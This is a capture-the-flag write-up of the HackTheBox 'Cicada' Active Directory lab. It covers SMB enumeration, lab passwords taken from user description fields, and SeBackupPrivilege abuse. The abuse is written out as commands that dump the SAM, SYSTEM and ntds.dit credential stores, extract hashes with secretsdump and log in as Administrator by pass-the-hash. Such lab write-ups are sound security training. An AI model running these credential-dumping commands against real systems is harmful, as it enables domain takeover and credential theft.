# Cicada — HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Cicada (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-04-05

---

## TL;DR

### Guest SMB access revealed a password in a user description field. Credential chain through multiple users via password spraying and share enumeration. Final user `emily.oscars` had SeBackupPrivilege, used to dump SAM/SYSTEM/NTDS for Administrator hash.
---
## Target info

- Host: `10.129.139.85`
- Domain: `cicada.htb`
---
## Enumeration





















Found password `Cicada$M6Corpb*@Lp#nZp!8` from a user description field.

---
## Lateral movement

```bash
enum4linux -a -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.129.139.85
```



Found `david.orelious:aRt$Lp#7t*VQ!3` from another user description.



Accessed `/DEV` share:







Found `emily.oscars:Q!3@Lp#M6b*7t*Vt`







---
## Privesc

emily.oscars has SeBackupPrivilege. Used the alternate path since ntds/system/sam wouldn't copy normally:

```
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

Created `script.txt` for diskshadow:

```
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
```

```
diskshadow /s script.txt
robocopy /b E:\Windows\ntds . ntds.dit
```

Downloaded sam, system, and ntds.dit, then dumped secrets:

```bash
secretsdump.py -sam sam -system system -ntds ntds.dit LOCAL
```



```bash
evil-winrm -i 10.129.139.85 -u administrator -H "2b87e7c93a3e8a0ea4a581937016f341"
```



---
## Lessons & takeaways

- User description fields in AD frequently contain passwords -- always check with `enum4linux` or LDAP queries
- Credential chains are common in AD: one user's creds unlock the next
- SeBackupPrivilege enables dumping SAM/SYSTEM/NTDS via diskshadow + robocopy
- Save `jq` commands for extracting user descriptions in bulk
---
